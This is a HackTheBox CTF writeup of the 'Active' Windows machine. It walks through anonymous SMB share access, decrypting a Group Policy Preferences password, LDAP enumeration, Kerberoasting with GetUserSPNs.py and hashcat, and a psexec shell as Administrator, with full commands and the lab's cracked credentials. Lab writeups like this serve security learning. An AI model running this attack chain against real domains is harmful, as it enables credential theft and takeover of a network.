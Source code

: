 ```yaml
---
layout: post
title: Active writeup.
subtitle: From HackTheBox CTF platform.
cover-img: /assets/img/active.png
thumbnail-img: /assets/img/active.png
share-img: /assets/img/active.jpg
tags: [hackthebox, ctf, meduim, windows, active directory, kerberoasting, ]
---
```


# Active 

![hackthebox active](/content/assets/img/active.png)

## Nmap
first  I started with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 12:29 CDT
Nmap scan report for 10.10.10.100
Host is up (0.12s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

A lot of ports open but I can see kerberos,ldap and active directory so I started by enumerating ldap using `ldapsearch` 

```bash
ldapsearch -x -h 10.10.10.100 -b “DC=active,DC=htb”
```
I didn't get any useful info. 

I tried nmap script also. No info. 

then I did enum4linux 

`enum4linux 10.10.10.100`

no usefull info except for listing smb shares: 

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```

I tried smbmap but didn't work ( authorization ) 

Also, I tried this but nothing worked: 

```
   16  nmblookup -A 10.10.10.100
   17  ping 10.10.10.100
   18  nmblookup 10.10.10.100
   19  smbmap -H 10.10.10.100
   20  smbclient -U "" -no-pass -L 10.10.10.100 
   21  enum4linux 10.10.10.100
   18  rpcclient -U "" -N 10.10.10.100
```

Additionally:

```
Host script results:
|_clock-skew: 12h13m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
```
So no relay attacks will work because Message signing is enabled and required. 

After trying smbclient I managed to connect anonymously to the directory `Replication` using:
```bash
smbclient //10.10.10.100/Replication 
```
It is a copy of the SYSVOL ( read about it here: https://adsecurity.org/?p=2288 )

After enumerating the folders and getting the files, I found an xml file that contains: 


```bash
the user: svc_tgs 
password: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
 
 Its AES and we are going to decrypt it using gpp-decrypt 
 gpp-decrypt ‘AESpassword’

```

Got the password: `GPPstillStandingStrong2k18`

I managed to connect using smbclient using the credentials. 

I got the flag from Desktop

Now I decided t to enumerate ldap users so I used:

```bash
ldapsearch -x -h 10.10.10.100 -D "svc_tgs" -W 'GPPstillStandingStrong2k18' -p 389 -b "CN=SVC_TGS,CN=Users,DC=active,DC=htb" -s sub "(&(objectclass=person)(objectclass=user))"  I got tons of info
```

Then I used GetADusers.py 

```bash
GetADUsers.py -dc-ip active.hbt/svc_tgs:GPPstillStandingStrong2k18
```
## root

back to nmap we need to do kerbroasting:

Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated
with a particular service instance. ldapsearch can be used to identify accounts that are
configured with SPNs.

So we will use `GetUsersSPN.py` 

`GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request`

After we get the hash, we crack it using hashcat: 

```bash
hashcat -m 13100 hashtocrack.txt /home/qunix/bugbounty/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt --force
```

we get the `Administrator` password: `Ticketmaster1968`​

Now to get the shell I tried using psexec. 

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```